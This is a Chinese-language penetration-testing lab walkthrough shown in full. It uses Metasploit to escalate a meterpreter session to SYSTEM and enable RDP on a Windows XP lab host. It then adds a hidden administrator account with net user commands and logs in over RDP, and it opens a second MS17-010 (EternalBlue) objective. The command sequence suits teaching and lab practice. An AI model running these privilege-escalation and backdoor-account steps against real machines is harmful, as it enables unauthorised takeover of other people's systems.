 使用 Metasploit 的提权模块  
```bash
# 加载提权模块
background  # 将当前会话后台挂起（返回msfconsole）
use post/windows/escalate/getsystem
set SESSION 1  # 替换为你的会话ID（这里是1）
run

# 若成功，会显示[+] Got SYSTEM via ...，此时重新进入会话：
sessions 1  # 回到meterpreter会话
getuid      # 确认已获得NT AUTHORITY\SYSTEM权限

```
### 开启目标主机的 RDP 服务
自动开启RDP服务并添加防火墙规则  
`run post/windows/manage/enable_rdp`

手动验证 RDP 端口  
`nmap -p 3389 192.168.118.201`

如果目标主机没有可用的登录用户，可创建  
进入目标系统的CMD shell  
`shell`

在 CMD shell 中输入：
```cmd
chcp 65001     # 如果中文乱码
net user haoyangjun 123 /add  # 创建用户haoyangjun，密码123
net localgroup administrators haoyangjun /add  # 将用户添加到管理员组
```

如果shell总是断开或者添加失败  
直接在 Meterpreter 中执行命令（无需进入 shell）  
- 创建用户：`execute -f "net.exe" -a "user haoyangjun 123 /add" -i -t`
- 添加到管理组：`execute -f "net.exe" -a "localgroup administrators haoyangjun /add" -i -t`
- 验证存在：`execute -f "net.exe" -a "user haoyangjun" -i -t`

可以输入`exit`并按回车，回到 meterpreter >提示符

单开一个终端，使用 RDP 客户端连接目标主机  
`rdesktop 192.168.118.201`

熟悉的xp界面，输入账号密码即可**进入桌面**  
然后就是想做啥就做啥喽。

</br>
</br>

# 目标二
使用 Kali 对 WinSev2008R2 系统的 SMB服务 **MS17-010漏洞** 进行利用，最终进入系统桌面进行截图

MS17-010 就是大名鼎鼎的永恒之蓝漏洞，导致WannaCry勒索病毒通过445端口进行广泛传播

>有了昨天的经验，这次测试变得非常简单
